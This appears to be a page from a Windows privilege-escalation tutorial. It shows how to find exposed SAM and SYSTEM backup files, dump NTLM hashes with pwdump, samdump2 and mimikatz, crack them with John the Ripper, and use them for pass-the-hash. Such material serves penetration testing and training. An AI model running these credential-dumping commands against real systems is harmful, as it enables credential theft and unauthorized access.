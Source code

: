## SAM & SYSTEM

Password hashes for all local users on the system are stored in the `SAM` and `SYSTEM` files. These files are typically protected and inaccessible, but in cases of misconfigurations, they may be exposed through backup copies.

### Verification

Run the following commands to check if these files are located in any of the common locations:

```powershell
@("$env:systemroot\repair\SAM","$env:systemroot\repair\system","$env:systemroot\System32\config\RegBack\SAM","$env:systemroot\System32\config\SAM","$env:systemroot\System32\config\SYSTEM","$env:systemroot\System32\config\RegBack\system") | ForEach-Object {if(Test-Path $_){$_}}
```

```batch
dir %SYSTEMROOT%\repair\SAM
dir %SYSTEMROOT%\repair\system
dir %SYSTEMROOT%\System32\config\RegBack\SAM
dir %SYSTEMROOT%\System32\config\SAM
dir %SYSTEMROOT%\System32\config\SYSTEM
dir %SYSTEMROOT%\System32\config\RegBack\system
```

### Attack

If these two files have been recovered, a dump of the stored hashes can be performed for later use in a "Pass The Hash" attack or for cracking. Various tools can be used to extract the hashes, such as `pwdump`, `samdump2`, or even [[mimikatz]].

```bash
# pwdump
pwdump SYSTEM SAM > /tmp/sam.txt

# samdump2
samdump2 SYSTEM SAM -o /tmp/sam.txt

# Mimikatz
lsadump::sam SYSTEM SAM
```

To crack the hashes:

```bash
john --format=NT --wordlist=rockyou.txt sam.txt
```

## EXAMPLE

We use the script suggested by the tool that searches for the files in known locations.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/credentials/samsystem_1.png)

We copy the two files to our attacker machine.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/credentials/samsystem_2.png)

On the Kali machine, we extract the NTLM hashes using the `samdump2` command.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/users/seBackup_3.png)

These hashes are stored in a file, `sam.txt`, which can be cracked using John The Ripper, as shown here.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/users/seBackup_4.png)

Alternatively, a "Pass The Hash" attack can be attempted to gain access to the machine directly without needing to know the credentials.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/users/seBackup_5.png)

